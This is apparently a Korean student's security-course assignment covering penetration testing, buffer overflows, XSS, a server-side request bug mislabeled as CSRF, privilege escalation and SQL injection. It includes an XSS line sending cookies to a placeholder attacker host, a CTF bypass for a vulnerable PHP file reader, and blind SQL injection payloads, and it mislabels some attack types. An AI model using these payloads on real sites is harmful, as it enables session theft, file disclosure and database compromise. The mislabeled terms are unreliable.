

# 컴퓨터보안 2차 수행평가
Writing day 11-19


### Contents

+ 모의해킹이란

+ FireEye

+ BoF Weakness

+ XsS Weakness

+ CsrF Weakness

+ EoF Weakness

+ 해킹 사건사고 사례


## 1. 모의해킹 이란

__정의 :__ 인가받은 집단이나 서로간의 협력하에 진단을 목적으로 해킹을 시도하는 일.

<br>

예를들어 현재 유명한 대부분의 대기업들이 시행하고있는 버그바운티의 경우

해당 기업에서 진단을 허락하고 취약점 또는 버그를 보완하는식으로 명예 , 돈을 얻을 수 있다.

이런식으로 어떠한 조건을 걸고 자신들의 개발되어있는 소프트웨어를 보완해 나가는것이다.

간단하게 서로 해킹가능한 범위를 지정한 다음 

## 2. FireEye

[url](https://www.youtube.com/watch?v=lg_VAt6KzmM&feature=emb_logo)

여기에 있다.

## 3. BoF Weakness

BOF 이란?

BOF는 BuFfer Overflow 의 약자이며 시스템 해킹에 속해있는 기법중 하나이다.

해당 bof 이라는 취약점 공격 기법은 많은 해킹 사례로는 C 언어로 제작되어있는 어떠한 프로그램의 메모리를 다루는데에 오류를 발생하면서 해커가 원하는대로 잘못된 동작을 하게되는 취약점이다.

이처럼 프로그램에서 데이터를 버퍼로 덮으면서 의도치 않게 다른 변수나 다른 커널까지 건드리게 되버리는것이다.

예를들자면

어떠한 프로그램을 버퍼로 덮은 후 쉘 코드를 실행하게 만들면서 권한을 얻어 시스템 해킹을 진행할 수 있게 만드는 공격 기법이다.

하지만 해당 bOF 취약점 말고도 스택 오버 플로우 , 에그쉘 기법 등등 다양한 시스템 해킹 기법이 존재한다.

만약에 유명한 회사의 경우 개발되어있는 소프트웨어 서버의 운영체제에 접근하여 권한을 탈취한 다음 /etc/passwd 이나 /etc/shadow 같은 파일을 읽어, 다크웹 같은 사이트에 팔아버리는 경우가 있다고한다.

## 4. XsS Weakness

xss 는 Cross Site Scripting(css 가 이미 약어로 사용되고 있어 xss 로 불린다.)의 약자로 웹 해킹에 존재하는 유명한 취약점중 하나이다.

xss 는 게시판 , 웹 메일 , 쪽지 , 댓글 등등 웹 페이지에 노출되면서 js 스크립트나 악성코드가 있는 사이트로 이동하게 되면서 클라이언트에게 취명적일 수 있는 공격 기법이다.

취약점 발생할 수 있는 경우, 웹의 쿠키를 이용하여 권한을 체크한다면 js 를 이용하여 해당 클라이언트의 쿠키를 탈취할 수 있다.

만약 사이트에 게시판 서비스가 존재 할 시에 개발자가 원하는 글을 적지 않고 javascript 를 삽입하여 공격을 취할 수 있다.

공격하는것을 예를 들자면

아무런 url을 열고

js 를 삽입할 수 있는 취약점 포인트를 찾아 
```js
window.location.href='hackerip?cookie='+document.cookie;
```
이런식으로 해커의 ip 즉 url 로 document.cookie(접속한 클라이언트의 쿠키)를 가지고 이동을 하게 되는것이다.

그러면은 apache logs 나 flag logs 에

```log
192.168.0.1 - - [20/Nov/2020:23:03:51 +0900] "GET /?cookie=qwe123 HTTP/1.1" 200 9397
```
이런식으로 cookie=qwe123 쿠키가 노출되어 탈취를 한 다음 해커가 원하는대로 악용을 하게 되는것 이다.

하지만 요즘에는 Web cookie로 권한 , 로그인을 하는 경우는 많이 없다.

그래도 어떤 서비스를 제공하는지 , 어떤 소프트웨어로 개발되어있냐에 따라 취약점은 무수하게 발견될 수 도있다.

## 5. CsrF Weakness

CSRF 는 서버(Server)단에서 어떠한 취약점이 발생하는 페이로드를 넣은 후 서버에서 의도하지 않은것을 요청하면서 취약점을 발생할 수 있다.

예를들자면 어떠한 웹 사이트에서 url 주소를 받아 이미지를 불러오는 서비스가 존재하고 로컬에서만 접근할 수 있는 admin(관리자) 페이지가 있다고 예를 들어본다면

url 주소를 받는 페이지로 이동하고 만약에 admin(관리자) 페이지 url 을 요청한다면 이미지를 불러오면서 자신만 들어올 수 있는 admin 페이지를 가져올 수 있다.

예를들어 실제로 cce ctf 대회에 출제된 문제로 예를 들어보겠다.

해당 사이트의 php 소스코드는 url 을 입력받고 파일을 읽어오는 서비스를 제공하고있다.

하지만 개발자는 해커들이 https:// 또는 http:// 가 아닌 flag.txt(중요한 정보 들어있는 파일) 을 요청할까봐

url 형식으로 하게 preg_match 로 필터링을 시켰다.

```php
<?php

    $url = $_GET['url'];

    // Request method GET send Data

    echo $url."<br>";

    // Web Page OutPut Url Varible

    if($url) {

        // url string check

        if(!preg_match('/^https?/', trim($url))){
            // url in http or https?
            exit('no hack');
            // no hack OutPut
        }
        echo trim($url);

        exit(file_get_contents(trim($url)));
        //file_get_contents function
    }
    show_source(__FILE__);    
    // my file show source


?>
```

해당 소스코드를 우회하고 flag.txt 를 읽기 위해서는

개발자가 원하는 보통 url 이 아닌 디렉토리 경로 형식으로

http/../flag.txt 또는 https/../flag.txt 이런식으로 요청하여 

```php
if(!preg_match('/^https?/', trim($url)))
```
해당 정규표현식을 우회할 수 있다.

이렇게 https , http 를 우회하는것 처럼 서버단에서 예상치 못한 어떠한 악성 스크립트를 삽입하여 
중요한 정보를 빼내올 수 있다.

## 6. EoF Weakness

Eof 이란? 

Eof 는 Elevation of Privileges의 약자이며 간단하게 권한 상승 취약점이라고 불린다

예를들어 어떠한 대기업의 회사에 다니고있는 a씨의 컴퓨터에 제로 데이 공격을 하여 관리자의 컴퓨터를 장악한 후 해당 대기업의 중요한 기밀 자료 , 모든 서비스를 해커 마음대로 조작할 수 있다.

해당 제로데이 공격으로 인해 많은 회사들이 피해를 입었으니 탐지하기에는 매루 어렵기 때문에 쉽게 방어를 할 수가 없다.

이처럼 어떠한 애플리케이션이나 자원에 대한 최고의 권한을 접근하기위해 익스플로잇을 하는 핻동이라 생각하면 된다.

밑의 사진처럼 아주 간단히 바이러스 또는 악성 스크립트를 이용하여 권한을 얻고 서버를 장악하여 해커가 원하는대로 할 수 있다.




## 7. 해킹 사건사고 사례

나는 sql injection 으로 인한 해킹 사건사고 사례를 보여주고싶다.

[여기어때 공격 sql injection 공격 흔적](http://www.bloter.net/archives/275170)

위의 링크를 들어가보면 여기어때 라는 어플에 sql injection 를 이용하여 수천명의 데이터가 들어있는 데이터베이스가 뚫린것으로 조사가 되었다.

이로인해 엄청난 피해를 얻고 sql injection 으로 인해 모든 데이터를 훔쳐볼 수 가있는것이다.


여기어때 어플 말고도 현재까지 sql injection 으로 인해 많은 피해를 입고 소중한 고객들의 개인정보가 털리는 경우를 많이 봐 왔다.

예를들어 sql injection 을 시도하는 페이로드 같은 경우는

```sql
SELECT * FROM member WHERE id='' and pw=''
```
이 해당 sql 쿼리로 로그인을 한다고 친다면


- blind sql injection
```sql
SELECT * FROM member WHERE id='' or substr(database(),1,1)='a' #'' and pw='';
SELECT * FROM member WHERE id='' or substr(version(),1,1)='b' #'' and pw='';
```

이런식으로 데이터베이스의 이름이나 데이터베이스의 버전이 노출되버리는 경우가 많다.

이를 방지하기 위해서는 ' 또는 " 를 문자열로 인식하며 # 이나 -- 같은 데이터베이스의 주석을 조심해야된다.